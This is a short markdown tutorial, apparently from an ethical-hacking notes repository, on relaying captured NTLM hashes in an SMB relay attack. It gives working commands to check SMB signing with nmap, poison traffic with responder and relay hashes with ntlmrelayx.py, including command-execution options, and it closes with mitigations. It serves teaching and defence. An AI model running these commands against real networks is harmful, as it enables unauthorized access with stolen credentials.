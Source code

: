 Sometimes, we're unable to crack the hashes that we recovered. In that case, we can just relay those hashes to specific machines and potentially gain access.<br><br>
There are a specific set of requirements we must meet for this to work:
- SMB Signing must be DISABLED on the target.
- Relayed user credentials must preferrably be ADMIN.

## Exploitation
Assuming SMB Signing has been disabled on the target, start with a confirmation scan:
```bash
nmap -script=smb2-security-mode.nse -p 445 TARGET-IP
```
![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/a0d110ff-bdaf-4138-9f7e-34a53287aa2e)

In order to relay the hashes, we'll need to edit the configuration file [responder.conf] with SMB to 'Off' and HTTP to 'Off'.<br>

![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/3b219178-b593-4ff4-9b6b-1caa42e92768)


Then proceed with listening for events:
```bash
sudo responder -I eth0 -dPv
```
As well as, set up a relay:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
> [!NOTE]
You can also add the following flags: 
> - i for interactive mode (if you're using this mode, create a listener on the specified port)
> - c for executing commands

## Mitigation
- Enable SMB signing on all devices (bare in mind, this can cause performance issues with file copies especially on legacy systems)
- Disable NTLMv1 authentication on network (If Kerberos stops working, Windows defaults back to NTLMv1)
- Account Tiering (Check AD Tier Modeling)
- Local admin restriction (Use LAPS to save yourself from the amount of potential increase in service desk tickets)
